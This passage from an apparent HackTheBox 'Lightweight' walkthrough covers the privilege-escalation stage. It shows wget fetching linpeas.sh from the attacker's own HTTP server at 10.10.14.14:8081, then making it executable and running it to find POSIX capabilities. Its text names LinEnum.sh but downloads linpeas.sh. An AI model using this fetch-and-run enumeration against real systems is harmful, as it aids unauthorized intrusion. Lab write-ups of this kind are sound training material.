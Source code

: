 Switching to `ldapuser1`.

___
![](/assets/img/lightweight-hackthebox/su-ldapuser1-24.png)

Files in `ldapuser1` directory.

___
![](/assets/img/lightweight-hackthebox/files-in-ldapuser1-25.png)

Now let's use `LinEnum.sh` again to escalate privileges.

___
![](/assets/img/lightweight-hackthebox/downloading-linenum-ldapuser1-26.png)

**Command**: *wget http://10.10.14.14:8081/linpeas.sh* 

**Command**: *python3 -m http.server 8081*

Ran LinEnum.sh after giving executing permissions using *chmod +x linpeas.sh* and found this

___
![](/assets/img/lightweight-hackthebox/posix-capabilities-27.png)
